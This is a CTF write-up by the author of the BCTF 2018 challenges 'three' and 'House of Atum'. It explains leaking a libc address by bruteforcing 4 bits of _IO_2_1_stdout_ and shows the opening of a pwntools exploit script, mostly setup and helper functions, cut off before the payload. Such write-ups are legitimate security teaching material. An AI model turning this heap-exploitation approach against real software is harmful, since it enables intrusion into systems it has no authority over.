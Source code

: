 ```yaml
---
layout: post
title: BCTF 2018 three & House of Atum 
date: "2018-11-26"
---
```


Hi, I am Ne0. I made two challenges `three` and `House of Atum` for `BCTF 2018`, which is held by `Blue-Lotus`. I hope that you guys enjoyed this CTF. If you like this writeup, please follow me on [Github](https://github.com/Changochen). And the challenges can be find at [here](https://github.com/Changochen/My_CTF_Challenge)

## Three
This is an easy challenge. But the number of solve is not as much as I expected. I think many people tried to use `house of roman` to solve this challenge. Here I want to tell you: House of roman is `Dead`. Don't use it any more.

Then how do we leak the address of libc with a challenge that doesn't have `leak` feature? Bruteforce `4 bits` to modify the `_IO_2_1_stdout_`. See the exploit below.

### Exploit

```python
from pwn import *

local=1
pc='./three'
remote_addr=['',0]
aslr=False
context.log_level=True

libc=ELF('./libc.so.6')

if local==1:
    p = process(pc,aslr=aslr)
    gdb.attach(p,'c')
else:
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def choice(idx):
    sla("choice:",str(idx))

def add(content):
    choice(1)
    sa("content:",content)

```